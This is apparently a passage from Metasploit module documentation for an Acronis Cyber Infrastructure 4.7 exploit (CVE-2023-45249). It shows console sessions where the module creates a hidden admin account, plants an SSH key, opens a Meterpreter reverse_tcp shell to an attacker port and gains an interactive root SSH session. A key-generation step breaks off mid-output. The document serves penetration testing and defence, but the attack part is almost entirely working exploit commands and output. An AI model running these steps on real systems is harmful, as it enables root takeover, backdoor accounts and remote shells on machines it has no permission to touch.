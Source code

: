 ```msf
[*] Getting the cluster information to upload the SSH public key at the Acronis Admin Portal.
[*] Uploading SSH public key at the Acronis Admin Portal.
[*] Authenticating with SSH private key.
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 192.168.201.5
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.5:51488) at 2024-09-15 19:45:46 +0000

meterpreter > sysinfo
Computer     : aci-471-53.vstoragedomain
OS           : Red Hat 4.7 (Linux 3.10.0-1160.41.1.vz7.183.5)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
### Acronis Cyber Infrastructure 4.7 appliance Interactive SSH
```msf
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set target 1
target => 1
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 4.7.1-53
[*] Creating admin user exvk1 with password NcwVNFNL3t for access at the Acronis Admin Portal.
[*] Saving admin credentials at the msf database.
[*] Creating SSH private and public key.
[*] Saving SSH public and private key pair at the msf database.
[*] Getting the cluster information to upload the SSH public key at the Acronis Admin Portal.
[*] Uploading SSH public key at the Acronis Admin Portal.
[*] Authenticating with SSH private key.
[*] Executing Interactive SSH for generic/ssh/interact
[*] SSH session 1 opened (192.168.201.8:36279 -> 192.168.201.5:22) at 2024-09-16 17:56:56 +0000

pwd
/root
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux aci-471-53.vstoragedomain 3.10.0-1160.41.1.vz7.183.5 #1 SMP Thu Sep 23 18:26:47 MSK 2021 x86_64 x86_64 x86_64 GNU/Linux
```
### Acronis Cyber Infrastructure 4.7 appliance Interactive SSH using your own SSH private key file in PEM format
```msf
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > ssh-keygen -t rsa -b 2048 -m PEM -f /tmp/aci_rsa
[*] exec: ssh-keygen -t rsa -b 2048 -m PEM -f /tmp/aci_rsa

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /tmp/aci_rsa
Your public key has been saved in /tmp/aci_rsa.pub
The key fingerprint is:
SHA256:H1Ewu7NLZdYIV4SQZPhsaGkXb/IG9fQgZEjqfKBRTIg root@cerberus
The key's randomart image is:
+---[RSA 2048]----+
|     . +o+B*+oo  |
|    E ..oo+=+.o  |
```